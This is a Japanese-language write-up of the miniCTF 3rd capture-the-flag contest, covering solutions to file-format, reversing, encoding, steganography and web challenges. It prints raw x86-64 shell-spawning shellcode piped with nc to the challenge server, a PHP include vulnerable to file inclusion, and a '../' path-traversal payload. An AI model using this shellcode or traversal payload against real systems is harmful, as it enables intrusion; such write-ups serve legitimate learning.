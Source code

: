 ```yaml
---
title: "miniCTF 3rd write-up"
date: 2020-01-31T14:14:46+09:00
Categories: ["write-up"]
---
```


ソロでチーム"helix"として参加した。1001 点を獲得し、順位は 9 位だった。


## 00 Welcome
自明

`NITAC{sup3r_dup3r_sc0re_serv3r}`

## 01 signature
`signature`ファイルの中身を確認する。
```bash
$ file signature 
signature: ELF (Tru64), unknown class 13

$ xxd signature | head
00000000: 7f45 4c46 0d0a 1a0a 0000 000d 4948 4452  .ELF........IHDR
00000010: 0000 0423 0000 021d 0806 0000 0007 efb7  ...#............
00000020: 2f00 0000 0473 4249 5408 0808 087c 0864  /....sBIT....|.d
00000030: 8800 0000 1974 4558 7453 6f66 7477 6172  .....tEXtSoftwar
00000040: 6500 676e 6f6d 652d 7363 7265 656e 7368  e.gnome-screensh
00000050: 6f74 ef03 bf3e 0000 1c96 4944 4154 789c  ot...>....IDATx.
00000060: eddd 39b2 eb46 8205 5042 f1b7 2347 a6ca  ..9..F..PB..#G..
00000070: d652 2ab4 2679 b595 72e4 7d4b 0ba8 4db4  .R*.&y..r.}K..M.
00000080: cf36 a427 bd91 c490 7973 3a27 a28c 16fa  .6.'....ys:'....
00000090: f381 891c 2f13 c0f6 cb2f bfdc 6f00 0000  ..../..../..o...
```
識別子は`ELF`だが`IHDR`や`IDAT`の文字からpngっぽいということで`7f45 4c46`を`8950 4e47`に変えるとフラグが手に入る。

`NITAC{dr4win9}`

## 02 shellcode

`shellcode`ファイルの中身を確認する。

```bash
$ file shellcode 
shellcode: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=3658bbbb3a87143505daa8ebe8bc00220aa93cc1, not stripped
```

問題名から察したので[http://shell-storm.org](http://shell-storm.org)から`x86-64`用のシェルコードを適当に探して投げてみる。

```bash
$ (echo -e "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";cat) | nc <url>
I will execute your code instead of you. Give me machine code bytes: ls
flag.txt
redir.sh
shellcode
cat flag.txt
NITAC{I_g4ve_up_cr0ss_comp1ling}
```

フラグが手に入る。

`NITAC{I_g4ve_up_cr0ss_comp1ling}`

## 03 wrong copy

`program`ファイルの中身を確認する。

```bash
$ file program
program: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=007c9b3494e08ccacaf16692de872fe3b817ae26, for GNU/Linux 3.2.0, not stripped
```

とりあえず`strings`をかけてみる。

```bash
$ strings program
... (省略)
u+UH
NITAC{c0H
py_15_d1H
ff1cul7}
[]A\A]A^A_
... (省略)
```

それっぽい文字列が見つかるが`H`が途中に混ざっているので除去するとフラグが手に入る。

`NITAC{c0py_15_d1ff1cul7}`

## 08 base64

`encoded.txt`ファイルの中身を確認する。

```bash
$ cat encoded.txt
TklUQUN7RE9fWU9VX0tOT1dfQkFTRTY0P30K
```

問題文に従って、デコードする。

```bash
$ cat encoded.txt | base64 -d
NITAC{DO_YOU_KNOW_BASE64?}
```

フラグが得られる。

`NITAC{DO_YOU_KNOW_BASE64?}`

## 12 flower

暗号化スクリプト`encrypt.py`と、ファイル`flower.png` 、`enc_flower.png`が渡される。

`encrypt.py`を確認する。

```python
import cv2
import numpy as np

img = cv2.imread('flower.png')

flag = ''.join([bin(ord(x))[2:].zfill(8) for x in list(input("input flag: "))])
flag += '0' * (img.shape[0] * img.shape[1] * img.shape[2] - len(flag))

print(flag)
print(len(flag))

enc_img = []

cnt = 0

for i in img:
    img_line = []
    for j in i:
        r, g, b = [[y for y in list(bin(x)[2:])] for x in j]
        r[-1] = flag[cnt]
        g[-1] = flag[cnt + 1]
        b[-1] = flag[cnt + 2]
        cnt += 3
        img_line.append([int(x, 2) for x in [''.join(r), ''.join(g), ''.join(b)]])
    enc_img.append(img_line)
cv2.imwrite('enc_flower.png', np.array(enc_img))
```

面倒くさかったので、脳死で復号スクリプトを書いた。

```python
import cv2

img = cv2.imread('enc_flower.png')

flag = []

for i in img:
    for j in i:
        r, g, b = [[y for y in list(bin(x)[2:])] for x in j]
        flag.append(r[-1])
        flag.append(g[-1])
        flag.append(b[-1])

for i in range(0, len(flag), 8):
    print(chr(int(''.join(flag[i:i+8]), 2)), end='')
```

実行するとフラグが手に入る。

```bash
$ python decrypt.py | less
NITAC{LSB_full_search}^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@
lines 1-1/1 (END)
```

`NITAC{LSB_full_search}`

## 15 Teacher's Server

フラグが`base32`で暗号化されているとのことなので、`Network1.pcapng`を`strings`にかけてみる

```bash
$ strings Network1.pcapng
... (省略)
Date: Sat, 28 Dec 2019 07:20:42 GMT
Connection: keep-alive
flag: JZEVIQKDPNEVGQKPL5EVGX2NIFKEQRKNIFKESQ2JIFHH2===
Counters provided by dumpcap
```

いかにもな文字列を見つけたのでデコードする。

```bash
$ echo JZEVIQKDPNEVGQKPL5EVGX2NIFKEQRKNIFKESQ2JIFHH2=== | base32 -d
NITAC{ISAO_IS_MATHEMATICIAN}
```

フラグが手に入る。

## 17 Admin Portal 1

Webサイトのソースが渡される。サイトには登録のためのリンクがないが、ソースを読むと`register.php`で受け付けていることがわかるので適当に登録する。その後、サイトからログインするとフラグが表示されている。

`NITAC{00f_r3g1str4t10n_st1ll_w0rks}`

## 18 Admin Portal 2

ソースを更に読むと、`index.php`に以下のようなコードがあることに気づく。

```php
<?php include("templates/" . $_GET['lang']); ?>
```

このコードを利用すると`lang`パラメータの変更で好きなファイルを読むことができる。また問題文より、フラグは`/flag2.txt`に存在することがわかっている。

そこで`lang`パラメータに適当な値を入力していくと、`../../../../flag2.txt`でフラグを手に入れることができた。

`NITAC{n0w_u_kn0w_h0w_LFI_w0rks}`

## JWT auth

メモを取り忘れたので省略。

## 総括

自明問題しか解けていないように感じた。
